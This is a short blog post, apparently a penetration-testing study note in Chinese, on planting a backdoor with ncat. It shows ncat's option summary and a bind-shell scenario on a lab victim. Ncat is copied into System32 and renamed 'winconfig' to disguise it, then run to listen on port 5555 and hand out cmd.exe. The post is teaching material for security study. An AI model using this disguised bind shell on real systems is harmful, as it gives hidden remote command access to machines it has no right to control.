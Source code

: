 ```yaml
---
layout: post
title: "Backdoor"
date: "2022-07-07"
author: "r3kind1e"
header-img: "img/post-bg-Penetration Testing Student.png"
catalog:    true
tags: 
    - Penetration Testing Student
    - System Attacks
---
```


# Backdoor
## ncat
[ncat](https://nmap.org/ncat/)

```
ncat -h
man ncat
```

```
OPTIONS SUMMARY
-l, --listen               Bind and listen for incoming connections
-e, --exec <command>       Executes the given command
-p, --source-port port     Specify source port to use
-v, --verbose              Set verbosity level (can be used several times)

选项摘要
-l, --listen 绑定并监听传入的连接
-e, --exec <command> 执行给定的命令
-p, --source-port port 指定要使用的源端口
-v, --verbose 设置详细程度（可多次使用）
```

### bind shell
受害者IP：192.168.102.152
攻击者IP：192.168.102.145

场景：我们已经利用了受害者机器，并且上传了windows版的ncat。

将ncat移动到`C:\Windows\System32`，并重命名为`winconfig`。

在受害者机器上：`-e`：执行文件，`-e cmd.exe`：cmd.exe是要执行的文件，会返回命令提示符。

```
winconfig -l -p 5555 -e cmd.exe
```

命令提示符进入监听状态并等待连接。
